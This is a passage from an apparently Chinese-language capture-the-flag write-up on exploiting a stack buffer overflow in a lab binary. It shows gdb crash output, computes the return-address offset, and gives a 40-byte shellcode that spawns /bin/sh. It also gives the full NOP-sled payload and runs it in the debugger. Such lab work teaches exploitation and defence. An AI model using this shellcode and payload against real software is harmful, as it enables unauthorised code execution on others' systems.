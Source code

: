     Program received signal SIGSEGV, Segmentation fault.
    0x0000414141414141 in ?? ()
    (gdb) 
    ```

    + 字符A对应的16进制为小x41(一个十六进制位占1个字节长度),输入158个A后,已经覆盖6字节长的返回地址, 这意味着我们到达返回地址开头的偏移量是 158-6 = 152字节。

        + shellcode采用``https://www.arsouyes.org/blog/2019/54_Shellcode/``结尾的40字节shellcode:

        ```
        \x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
        ```
        + 整个有效载荷构成可以是这样子的:

        ``NOP sled(90)+shell code(40)+random chars(22)+Memory Address(6)`` , 即:

        ```
        '\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + 'B' * 6
        ```

        + 验证有效载荷:

        ```
        (gdb) run $(python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + 'B' * 6)")
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y
        Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41' * 22 + 'B' * 6)")
        Here's a program that echo's out your input
        ������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAAAAAAAAAAAAAABBBBBB

        Program received signal SIGSEGV, Segmentation fault.
        0x0000424242424242 in ?? ()
        (gdb) 
        ```

        + 查看NOP sled字符串所在位置以及shellcode开头:

        ```
        x/100x $rsp-200
        #这将从内存位置 $rsp -200 字节处转储 100*4 字节。       
        ```
